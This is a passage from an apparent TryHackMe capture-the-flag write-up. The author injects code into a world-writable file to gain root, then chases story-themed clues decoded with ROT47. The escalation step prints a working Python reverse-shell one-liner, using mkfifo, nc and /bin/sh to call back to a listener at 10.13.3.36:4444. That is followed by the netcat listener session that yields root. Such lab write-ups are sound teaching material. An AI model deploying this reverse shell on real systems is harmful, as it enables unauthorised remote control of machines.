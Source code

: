 The file can be written by anyone. So I injected a reverse shell in the file. 

```python
import os

os.system("mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg")

```

I started a Netcat listener, and waited for the connection back.

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.13.19 56178

whoami
root

cat /root/root.txt
THE_ROOT_FLAG
```

## Defeat Ruvik

There is one last task: to defeat Ruvik. I thought this might have to do with the encrypted file from before. Turned out it's simply ROT47.

```
From Kidman:

The thing I am about to tell so is top secret. No one doesn't know about this. It's the Ruvik's eye. No one can hide away from it. But I can tell you one thing search for the string *the_eye_of_ruvik* . You got to help Sebastian defeat Ruvik ...
```

There is also a `readMe.txt` in `/root/`. 

```bash
root@evilwithin:~# cat /root/readMe.txt 
 /\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\
|  From Sebastian :                                                                     |
|                                                                                       |
|  You have one final task ... Help me to defeat ruvik !!!                              |
|                                                                                       |
 \/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/

```

I looked for the string "the_eye_of_ruvik" on the server. 

```bash
grep -R the_eye_of_ruvik / 2>/dev/null
```

This took a while, without finding anything. So I went and look at the hint on TryHackMe. 
